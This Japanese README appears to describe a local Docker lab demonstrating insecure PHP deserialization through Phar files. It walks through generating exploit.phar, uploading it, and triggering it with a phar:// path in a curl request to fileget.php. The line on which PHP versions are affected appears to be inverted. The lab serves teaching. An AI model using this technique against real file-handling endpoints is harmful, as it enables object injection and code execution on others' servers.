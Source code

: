 # 概要

Pharを使った安全でないでシリアライゼーションのデモ

# 環境設定

php8未満ではPharを使用した安全でないデシリアライゼーションは成立しない。
https://wiki.php.net/rfc/phar_stop_autoloading_metadata

dockerfileにて、phpiniに`phar.readonly=off`を追記している。
この設定をすることで、pharファイルを生成できるようになる。

```
# build
docker build --tag php-phar .

# run
docker run --rm -p 8000:80 -v `pwd`/src:/var/www/html php-phar

# exec
docker exec -it コンテナ名 bash
```

# 攻撃手順
## Pharを生成
コンテナの中で`php Phar/generate.php` を実行すると`exploit.phar`というファイルが生成される。

## Pharをアップロードする
`http://localhost:8000/`からファイルをuploadする

## アップロードしたPharを参照する

`curl http://localhost:8000/fileget.php?filepath=phar://uploads/exploit.phar/hoge.txt`

すると、`Logs/sample.log`に`hacked!!!!!!`という文字列が書き込まれている。
